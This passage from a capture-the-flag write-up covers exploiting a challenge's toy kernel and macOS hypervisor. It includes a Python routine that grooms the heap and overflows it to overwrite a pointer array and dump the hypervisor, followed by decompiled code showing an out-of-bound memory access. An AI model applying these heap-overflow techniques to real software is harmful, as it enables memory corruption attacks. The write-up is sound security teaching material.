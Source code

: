 ```c  
 a1->avai_size = a2;  
 a1->isfree = 0;  
 a1->next = v2;  
}  
```

The key is that after the heap, there is `char* values[16]` array, so as long
as we can allocate chunk that is just before the `values`, we can use heap
overflow to rewrite it.

### Exploit Kernel

To rewrite `values` array, what I did is to allocate chunk with size `0x200`
for 6 times, then allocate chunk with size `0x200` with value long enough
followed by new pointer in the end that will rewrite `values[0]`, then
allocate chunk with size `0x200` to cause overflow.

```python  
def allocate_pre(sh):  
	sh.recvuntil(ARR)  
	for i in xrange(6):  
		export(sh, str(i) * l, str(i))

def leak_honcho(sh):  
	honcho = 0x1508  
	export(sh, str(7) * l, 'A' * (l+1+3) + p16(honcho))  
	export(sh, '8' * l, (val_len(l) - (l+1) - 2) * '8' + '$' + '7' * l)  
	export(sh, '0' * l, "leak") # rewrite "honcho" global string  
	data = cat("honcho")

	f = open("honcho", "wb")  
	f.write(data)  
	f.close()  
```

### Reverse Engineering Hypervisor

After dumping the hypervisor, we found that this is a MacOS executable, which
I am not familiar with. This is the first time for me to exploit a MacOS
program, and I don't have a MacOS machine either, but fortunately there are
MacOS machines in our lab.

The symbols are not stripped which is great, there are many hypervisor stuff
which you actually don't need to get into, because the handler of `out` from
that simple OS is an obvious switch statement.

The vulnerability is here, out-of-bound access.

```c  
case 'c':  
 v8 = read(0, (char *)vm_mem + v22, v19);  
 hv_vcpu_write_register((unsigned int)vcpu, 2LL, v8);  
 break;  
case 'd':  
 puts((const char *)vm_mem + v22);  
 break;  
```
